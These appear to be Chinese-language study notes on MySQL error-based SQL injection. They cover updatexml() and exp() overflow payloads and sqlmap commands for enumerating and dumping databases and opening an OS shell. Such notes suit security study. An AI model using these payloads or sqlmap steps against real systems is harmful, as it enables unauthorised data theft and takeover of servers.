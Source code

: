 ### **使用updatexml(目标xml文档，xml路径，更新的内容)**

第二个参数 xml路径 是可操作的地方，xml文档中路径是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。
		所以以~开头的内容不是xml格式的语法，报错，但是会显示无法识别的内容是什么，这样就达到了目的。所以可以构造函数

```mysql
select username from security.users where id=1 and updatexml('anything',concat('~',(select database())),'anything');
```

​		有一点需要注意，update()能查询字符串的最大长度为32，就是说如果我们想要的结果超过32，就需要用substring()函数截取，一次查看32位



### **利用exp()函数造成double数值类型超出范围进行报错注入的Payload形式如下：**

```mysql
uname=admin" union select (exp(~(select * from (select database())a))),2 #
```

Explain：

（1）MySQL exp(x)函数 返回e(自然对数的底)的x次方的值，但是这个数学函数有一个问题，那就是当传递一个大于709的值时，函数exp()就会引起一个溢出错误。

（2）~表示取反操作，将0按位取反就会返回“18446744073709551615”。再加上函数成功执行后返回0的缘故，我们将成功执行的函数取反就会得到最大的无符号BIGINT值。

（3）我们通过子查询与按位求反，造成一个“DOUBLE value is out of range”错误，并借由此注出数据。

### sqlmap 

#### sqlmap检测注入漏洞的流程

1. 网站连通性检测：检测目标的链接状态。
2. WAF探测：检测网站是否受WAF保护
3. 网页稳定性检测：检测网页是否稳定。
4. 参数动态性检测：检测参数是否具有动态性。
5. 启发式注入检测：探测该参数点是否是动态的、是否为可能的注入点 

####  常见用法1： -u参数（直接输入目标URL）

* 命令实例： sqlmap -u “http://www.test.com/index.php?id=1”（加--batch可以让程序自己选择）

* 验证过程

  1. 判断可注入的参数
  2. 判断可以用哪种SQL注入技术来注入
  3. 识别出所有存在的注入类型
  4. 尝试去判定数据库版本、开发语言、操作系统版本

  ```shell
  sqlmap -u url --batch
  sqlmap -u url -dbs（--current-db） // 爆库
  sqlmap -u url -D "数据库名" --tables // 爆表
  sqlmap -u url -D "数据库名" -T "表名" --colunms // 爆字段/列
  sqlmap -u url -D "数据库名" -T "表名" -C "列名" --dump // 爆数据 
  
  sqlmap -u url --os-shell // 可以直接尝试此方法直接获取shell
  ```
